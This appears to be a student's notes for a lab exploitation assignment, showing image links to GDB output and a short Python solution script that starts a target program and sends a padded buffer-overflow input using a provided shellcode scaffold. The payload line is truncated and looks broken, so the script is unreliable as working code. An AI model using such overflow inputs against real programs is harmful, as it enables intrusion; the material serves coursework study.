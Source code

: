    

## Exploit GDB Output
> [!code]
> **Before exploiting:**
> ![](Project_1.assets/image-20240304215930017.png)
> **After exploiting:**
> 
> ![](Project_1.assets/image-20240304215950883.png)
> **The Exploit Output:**
> 
> ![](Project_1.assets/image-20240304220039277.png)






## Solutions
> [!code] egg
> 
```c
#!/usr/bin/env python3

import scaffold as p
from scaffold import SHELLCODE
import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

### YOUR CODE STARTS HERE ###

# Program start:
p.start()

# Send
p.send('A'*12+'\\x\n')
```